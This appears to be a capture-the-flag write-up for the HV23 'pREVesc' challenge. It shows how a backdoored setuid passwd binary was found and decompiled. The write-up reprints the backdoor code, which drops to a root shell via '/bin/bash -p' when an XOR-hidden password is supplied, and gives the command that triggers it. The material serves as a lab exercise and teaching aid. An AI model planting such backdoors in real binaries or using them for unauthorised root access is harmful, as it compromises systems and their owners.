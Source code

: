 ## [HV23.15] pREVesc (coderion)
### Description
> We recently changed the root password for santa as he always broke our system. However, I think he has hidden some backdoor in there. Please help us find it to save christmas!
### Solution
When logging in with the provided credentials, you can find a "normal" ubuntu 23.04. Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) sadly doesnt reveal to much. But when looking at the modified date of the setuid binaries, you can find that the passwd file seemed to be more recent than the others. You can then copy the binary with scp to your local machine. When you decompile the binary, you can find that when using the -E Argument the following code get called:
```c
case 'E':
	setuid(0);
	setgid(0);
	// secret password must be set
	// get SALAMI env
	char *salami = getenv("SALAMI");
	// if env is empty
	if (salami == NULL) {
		// set env
		puts("Why u givin' me no salami?!");
		exit(1);
	}
  int i;
	char key[] = "nevergonnagiveyouup";
  char xor_password[] = "";
  char output[6];

  for (i=0; i<6; i++) {
  	char temp = xor_password[i] ^ key[i];
  	output[i] = temp;
  }
	char password[] ={0x1b, 0x15, 0x18, 0x11, 0x1e, 0x53, 0x5c, 0x4e, 0x1b, 0x16, 0x1a, 0x47, 0x0a, 0x0e, 0x19, 0x15, 0x18, 0x0b, 0x16, 0x4f, 0x0f, 0x0e, 0x00, 0x46, 0x04, 0x00, 0x18, 0x02, 0x05, 0x56, 0x05, 0x5c, 0x08, 0x30, 0x1a, 0x5d, 0x04, 0x58, 0x3b, 0x06, 0x35, 0x0a, 0x22};

	char pw[43];    // pw=https://www.youtube.com/watch?v=dQw4w9WgXcQ
	for (int i = 0; i < sizeof(password); i++) {
		char tmp = password[i] ^ output[i % 6];
		pw[i] = tmp;
	}
	// check da env
	if (strcmp(salami, pw) != 0) {
		printf("Never gonna give you up!\nYou'll never escape the rickroll.");
		exit(1);
	}
	puts("Enjoy your salami!");

  system("/bin/bash -p");
```
When looking at the registers in gdb we can see that the password is: https://www.youtube.com/watch?v=dQw4w9WgXcQ.   
When you then execute 
```bash 
SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ passwd -E
```
 you get the flag.  
A solve.py can be found [here](solve.py).  
  
Flag: **HV23{3v1l_p455wd}**   
